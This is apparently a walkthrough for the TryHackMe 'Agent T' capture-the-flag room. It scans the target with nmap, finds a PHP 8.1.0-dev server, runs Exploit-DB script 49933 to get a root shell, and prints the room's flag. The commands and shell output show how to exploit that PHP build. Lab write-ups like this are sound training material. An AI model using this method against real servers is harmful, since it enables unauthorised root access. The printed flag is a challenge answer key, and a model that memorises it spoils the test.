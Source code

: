 # Agent T Walkthrough
### Link
- https://tryhackme.com/room/agentt
---
### Recon
```
sudo nmap -sV -sC [IP]
```
**Namp scan result**
```
Host is up (0.39s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    PHP cli server 5.5 or later (PHP 8.1.0-dev)
|_http-title:  Admin Dashboard
```

Now we can try to access it through http --> http://[IP]

We have an access to a **admin** dashboard. After navigating from this page, we can notice that we cannot access others features.

One important information we caught from the **nmap scan** is the version of the Php 
```
PHP cli server 5.5 or later (PHP 8.1.0-dev)
```
### Find an exploit

We can check **exploitdb** and we are lucky beacause we have this [exploitdb](https://www.exploit-db.com/exploits/49933)

### Use the exploit

```
python3 49933.py 
Enter the full host url:
http://10.10.78.93/

Interactive shell is opened on http://10.10.78.93/ 
Can't acces tty; job crontol turned off.
$ id
uid=0(root) gid=0(root) groups=0(root)

```

### Find  the flag

```
$ ls /
bin
boot
dev
etc
flag.txt
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var

$ cat /flag.txt
flag{4127d0530abf16d6d23973e3df8dbecb}
```

**Question**
#### What is the flag?
**Answer** 
#### flag{4127d0530abf16d6d23973e3df8dbecb}
